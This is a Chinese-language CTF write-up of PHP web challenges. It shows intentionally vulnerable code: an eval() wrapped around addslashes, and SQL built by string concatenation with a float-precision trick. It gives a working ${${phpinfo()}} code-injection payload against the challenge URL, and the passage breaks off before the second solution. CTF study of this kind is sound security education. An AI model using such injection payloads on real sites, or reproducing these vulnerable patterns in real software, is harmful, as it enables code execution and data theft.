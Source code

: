 * * *

php code：

```
#GOAL: gather some phpinfo();

$str=@(string)$_GET['str'];
eval('$str="'.addslashes($str).'";');

```

### 攻略：

eval('$str="'.addslashes($str).'";');这段最后成为 php 代码 $str="***"，***里双引号被 addslashes，但内容在双引号内可以${${这里执行代码}}

### 所以：

```
http://phpchallenges2.sinaapp.com/index.php?str=${${phpinfo()}} 
```

## challenge 3

* * *

php code:

```
# GOAL: dump the info for the secret id
require 'db.inc.php';

$id = @(float)$_GET['id'];

$secretId = 1;
if($id == $secretId){
    echo 'Invalid id ('.$id.').';
}
else{
    $query = 'SELECT * FROM users WHERE id = \''.$id.'\';';
    $result = mysql_query($query);
    $row = mysql_fetch_assoc($result);

    echo "id: ".$row['id']."</br>";
    echo "name:".$row['name']."</br>";
}

```

### 攻略：

主要是利用 php 和 mysql 对 float 数字型支持的精度不同，精度小的会忽略不能支持的位数。

### 所以：
